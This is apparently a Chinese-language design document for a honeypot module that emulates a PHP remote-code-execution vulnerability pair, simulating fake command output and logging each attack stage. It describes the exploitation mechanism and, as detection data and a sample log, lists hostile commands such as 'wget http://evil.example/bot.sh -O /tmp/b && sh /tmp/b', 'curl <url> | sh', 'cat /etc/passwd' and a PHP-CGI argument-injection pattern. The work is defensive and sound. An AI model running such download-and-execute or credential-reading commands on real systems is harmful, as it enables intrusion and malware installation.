

# PHP2Shell (CVE-2026-109618 & CVE-2026-109619) 漏洞仿真与全流程记录设计文档

## 一、 漏洞详情与工作原理调研（PHP2Shell）

2026年10月20日—21日披露并紧急修复的 PHP 底层核心远程代码执行（RCE）漏洞被安全界统称为 **“PHP2Shell”**，包含两个紧密配合的高危 CVE：**CVE-2026-109618** 与 **CVE-2026-109619**（CVSS v4.0 评分 **9.2 Critical**，官方修复补丁为 `php-src` Commit `3584a98` / `31c0ea7d7ff` *"Avoid state corruption via bailout"*）。

### 1. 基本画像与影响范围
- **漏洞类型**：未授权远程任意代码执行（Pre-Auth RCE）、内存损坏（Memory Corruption）、释放后重用（Use-After-Free, UAF）。
- **受影响版本**：PHP 5.4.0 至各分支安全补丁发布前的所有版本：
  - PHP 8.5.0 – 8.5.11（修复于 **8.5.12**）
  - PHP 8.4.0 – 8.4.26（修复于 **8.4.27**）
  - PHP 8.3.0 – 8.3.35（修复于 **8.3.36**）
  - PHP 8.2.0 – 8.2.34（修复于 **8.2.35**）
  - PHP 8.1 及更早 EOL 版本全部受影响。
- **受影响运行架构（SAPI）**：Apache `mod_php`（最高危）、`PHP-FPM`、`php-cgi`、`FrankenPHP`、`LiteSpeed`。

### 2. 底层工作原理
该漏洞触发于 **PHP 引擎的 SAPI 请求解析与初始化阶段（RINIT）**，此时**应用层 `.php` 业务代码和身份认证逻辑尚未开始执行**：

1. **前置触发面（`rfc1867` 与 `session.upload_progress`）**：
   - PHP 默认开启 `session.upload_progress.enabled = On`。
   - 当收到 `Content-Type: multipart/form-data` 的 `POST` 请求且包含 `PHP_SESSION_UPLOAD_PROGRESS` 字段时，PHP 底层的 `main/rfc1867.c` 在解析 HTTP 请求体时会直接调用 `ext/session/session.c` 中的 `php_session_rfc1867_callback`，自动初始化会话并操作内部结构 `PS(rfc1867_data)`（且在特定路径下可绕过 `session.use_only_cookies=On` 接收表单中的 `PHPSESSID`）。
2. **CVE-2026-109618（OOM `longjmp` / `zend_bailout` 内存损坏）**：
   - PHP 通过 `memory_limit` 控制单请求内存上限。当内存分配失败触发 OOM 时，Zend 引擎调用 `zend_bailout()`（基于 C 语言 `longjmp()`）强行跳出当前执行流进入请求清理阶段（RSHUTDOWN）。
   - 若攻击者构造畸形、深层嵌套或超大边界的 `multipart/form-data` 请求，在 `php_session_rfc1867_callback` 或请求变量初始化**完成到一半（Partially Initialized）**时精确诱发 OOM `longjmp()`，清理例程会将尚未完成初始化的脏指针当作合法结构体执行释放（`efree` / 析构），导致可控的堆内存破坏。
3. **CVE-2026-109619（跨请求残留全局状态与 UAF）**：
   - 在 `mod_php` 或 `PHP-FPM` 等常驻 Worker 进程模型中，进程级全局变量（如 `PS(...)` 会话状态、反序列化销毁上下文 `var_destroy` 等）在请求期间临时指向请求级内存（`emalloc`）。
   - 当请求因致命错误或 `zend_bailout()` 异常中止时，请求级内存池被 ZendMM 回收，但全局状态指针未被正确重置，形成指向已释放内存的**悬挂指针（Stale Pointer）**。
   - 同一 Worker 处理**后续请求**时触发 Use-After-Free (UAF)。攻击者通过“生产者-消费者（Producer-Consumer）”多请求配合（或单请求堆排布），伪造 `zval` / `zend_object_handlers` 虚表指针，劫持控制流执行任意命令或写入 Webshell。

### 3. 真实攻击全周期拆解（蜜罐需捕获并交互的 4 个阶段）
1. **Stage 1 - 指纹与特性探测（Probe / Recon）**：
   - 扫描器（如 Nuclei `CVE-2026-109618.yaml` / `CVE-2026-109619.yaml`）探测 HTTP 响应头中的 `X-Powered-By: PHP/8.3.x`，或发送携带 `PHP_SESSION_UPLOAD_PROGRESS` 与自定义 `PHPSESSID` 的 `multipart/form-data` 探测包，验证会话文件/Cookie 行为。
2. **Stage 2 - OOM / Bailout 状态污染触发（CVE-2026-109618 Trigger）**：
   - 发送包含 `PHP_SESSION_UPLOAD_PROGRESS`、超大/异常 `Content-Length`、深层数组键名、堆喷射填充数据（Padding）或二进制 ROP/Fake Zval 载荷的请求，诱导 Worker 触发 OOM 异常并污染全局状态（或观察服务器是否返回 PHP OOM Fatal Error 信息）。
3. **Stage 3 - UAF 状态劫持与 RCE 载荷投递（CVE-2026-109619 Exploit & Delivery）**：
   - 在同一连接（Keep-Alive）或同源 IP / 同 `PHPSESSID` 的后续请求中触发 UAF，投递核心载荷（同时兼容单包融合利用或 `CVE-2024-4577` PHP-CGI 参数注入）：
     - **命令执行型**：`id`、`whoami`、`uname -a`、`echo <canary>`、`cat /etc/passwd`、`curl/wget <url> | sh`（拉取僵尸网络样本）。
     - **Webshell 写入型**：通过 `file_put_contents`、`eval`、`system`、`base64_decode` 或上传文件落地 `.php` 后门（如 `/shell.php`、`/vuln.php`）。
4. **Stage 4 - 后渗透验证与 Webshell 交互（Post-Exploitation）**：
   - 攻击脚本根据 Stage 3 的命令回显（尤其是 Canary 随机字符串回显或 `uid=33(www-data)`）确认漏洞利用成功，随后访问写入的 `/shell.php` 发送后续控制指令。

---

## 二、 现有项目架构分析与差距评估

1. **大请求 / 多分片 HTTP 过早响应问题**：
   - `Honeypot.handle_connection` 每次循环仅读取 `4096` 字节，并立即调用 `handler.handle()` 发送响应。
   - 当攻击者发送大于 4KB 的 `multipart/form-data` 载荷（或 Header 与 Body 分多次 TCP 包到达）时，原有 `HTTPHandler.handle` 会在 Body 尚未收完时就连续多次返回 `HTTP/1.1 200 OK`，导致攻击者的 Exploit 脚本因协议异常直接中断，无法收到完整 Payload。
2. **缺乏易受攻击的 PHP 指纹与会话机制**：
   - 原有 `HTTPHandler` 仅返回静态的 `Server: nginx/1.18.0 (Ubuntu)`，缺少 `X-Powered-By: PHP/8.3.34` 及 `Set-Cookie: PHPSESSID=...`，导致自动化扫描器在 Stage 1 直接判定目标非 PHP 环境而放弃后续攻击。
3. **缺乏虚拟沙箱回显与虚拟 Webshell 状态保持**：
   - 当攻击脚本在 Stage 3 执行 `echo <canary>` 或 `id` 验证 RCE，或者写入 `shell.php` 并在 Stage 4 访问 `POST /shell.php` 时，固定返回 `Welcome to nginx!` 会让攻击器判定利用失败，无法骗取攻击者的下一阶段真实载荷（如木马下载链接、C2 地址）。
4. **缺乏跨请求/全流程的结构化攻击链日志关联**：
   - 攻击者的 Stage 1 → Stage 4 往往跨越多个 HTTP 请求甚至多个 TCP 连接（同一 IP 或同一 `PHPSESSID`）。需要针对**攻击阶段（Stage）、触发的 CVE 编号、提取出的 PHP/Shell 载荷、虚拟文件落地情况**进行结构化解析与关联。

---

## 三、 详细架构与模块设计



### 1. 核心模块 (`src/trap/handlers/php_rce.py`)

1. **`PHPAttackState` & `PHPAttackTracker`（跨请求/跨连接攻击链状态管理）**
   - **索引键**：以客户端 IP（由 `session_id` 解析出的 `ip`）及请求携带的 `PHPSESSID` 作为关联键，维护带 TTL（600 秒自动过期清理）的状态字典。
   - **状态字段 (`PHPAttackState`)**：
     - `attack_id: str`：唯一攻击链 ID（如 `php2shell-<short_id>`），将同一攻击者的探测、OOM 触发、UAF 利用、后渗透请求串联起来。
     - `phpsessid: str`：协商或攻击者注入的会话 ID。
     - `current_stage: str`：`STAGE_1_RECON` -> `STAGE_2_OOM_TRIGGER` -> `STAGE_3_UAF_RCE` -> `STAGE_4_POST_EXPLOIT`。
     - `worker_corrupted: bool`：标记当前模拟 Worker 是否已被 CVE-2026-109618 污染（为 CVE-2026-109619 跨请求触发提供状态依据）。
     - `virtual_files: dict[str, str]`：记录攻击者在 Stage 3 通过 `file_put_contents` / 文件上传写入的虚拟 Webshell 路径及其内容。
     - `timeline: list[dict]`：记录该攻击链已发生的各阶段事件摘要。

2. **HTTP 分片重组缓冲（解决大包截断与过早响应）**
   - 按 `session_id` 缓存当前未接收完的 HTTP 请求字节流：
     - 查找 `\r\n\r\n`（或 `\n\n`）定位 Header 结束位置。
     - 解析 `Content-Length` 与 `multipart/form-data` 的 `boundary`。
     - **安全边界控制**：设置最大重组缓冲阈值 `MAX_HTTP_BUFFER_SIZE = 65536`（64KB）及分片等待上限。
     - 若攻击者在 CVE-2026-109618 中故意声明超大的 `Content-Length`（例如 `Content-Length: 134217728` 企图触发 128MB OOM）但实际只发送了触发包，或者检测到尾边界 `--boundary--`，则立即触发解析。
     - 若属于正常分片传输且未收齐，则在 `handle()` 中返回 `("http/php2shell", "[PHP2SHELL_FRAGMENT] ...", b"")`，等待后续分片收齐后再统一响应。

3. **`PHPSandboxSimulator`（安全载荷提取与命令/PHP 虚拟执行器）**
   - **绝不真正执行任何代码**，全部通过正则与语法模式匹配模拟回显：
   - **载荷提取能力**：
     - 提取 `multipart/form-data` 中的 `PHP_SESSION_UPLOAD_PROGRESS` 值、`PHPSESSID`、上传文件名（`filename="..."`）及二进制堆喷/Fake Zval 特征。
     - 提取 PHP 代码载荷：`<?php ... ?>`、`eval(...)`、`system(...)`、`exec(...)`、`passthru(...)`、`shell_exec(...)`、`popen(...)`、`file_put_contents(...)`、`base64_decode('...')`（递归解码）。
     - 提取 URL 查询参数与 POST Body 中的常见命令注入（含 `CVE-2024-4577` `?%ADd+allow_url_include...` 兼容识别）。
   - **命令仿真回显表**：
     - `id` -> `uid=33(www-data) gid=33(www-data) groups=33(www-data)`
     - `whoami` -> `www-data`
     - `uname -a` / `uname` -> `Linux ubuntu-web01 6.8.0-45-generic #45-Ubuntu SMP PREEMPT_DYNAMIC x86_64 GNU/Linux`
     - `pwd` -> `/var/www/html`
     - `ls` / `ls -la` -> 模拟包含 `index.php`, `config.php`, `upload.php` 及当前 `virtual_files` 中已落地 Webshell 的目录列表。
     - `cat /etc/passwd` -> 标准 Ubuntu `/etc/passwd` 伪造内容。
     - `echo <str>` / `printf <str>` / `md5(...)` -> 精确计算并原样输出 `<str>` 或哈希值（满足 Nuclei 及自动化 Exploit 脚本的 Canary 校验）。
     - `phpinfo()` / `php -v` -> 返回包含 `PHP Version 8.3.34`、`session.upload_progress.enabled => On`、`memory_limit => 128M` 的逼真信息。
     - `curl <url>` / `wget <url>` -> 提取并高亮记录恶意木马下载 URL（IOC）。
     - `file_put_contents('xxx.php', ...)` 或上传 `.php` 文件 -> 将文件名与载荷存入当前 `PHPAttackState.virtual_files`，使后续对该 URL 的请求进入 Stage 4 虚拟 Webshell 交互。

### 2. 攻击全过程审计日志格式

对于命中 PHP2Shell 流程的请求，`protocol` 标记为 `"http/php2shell"`，并在 `decoded_content` 头部附加 `[PHP2SHELL_AUDIT]` JSON 摘要块（同时在 `FileStorage` 与 `MySQLStorage` 中自动提取为 `metadata` 结构化字段）：

```text
[PHP2SHELL_AUDIT] {"attack_id": "php2shell-9f8a1b", "stage": "STAGE_3_UAF_RCE", "cves": ["CVE-2026-109618", "CVE-2026-109619"], "step_index": 3, "phpsessid": "attacker_sess_01", "extracted_commands": ["id", "wget http://evil.example/bot.sh -O /tmp/b && sh /tmp/b"], "decoded_payloads": ["system('id');"], "dropped_files": ["/shell.php"], "iocs": ["http://evil.example/bot.sh"]}
--- RAW HTTP REQUEST ---
POST /index.php HTTP/1.1
...
```
